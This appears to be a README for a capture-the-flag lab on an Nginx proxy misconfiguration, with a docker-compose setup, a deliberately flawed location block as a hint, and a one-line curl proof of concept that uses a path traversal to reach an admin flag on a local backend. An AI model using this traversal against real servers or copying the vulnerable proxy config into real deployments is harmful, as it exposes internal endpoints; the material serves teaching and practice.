 ### Nginx

Try to access http://backend:8080/admin/flag


### Usage
Build and run
```
docker-compose up
```

Go http://127.0.0.1:8081/


### Hint
Nginx default.conf
```
location = / {
    return 301 $scheme://$http_host/docs;
}

location /docs {
    proxy_pass	http://backend:8080/docs/;
}
```

### POC
``` bash
curl --path-as-is 'http://127.0.0.1:8082/docs../admin/flag'
```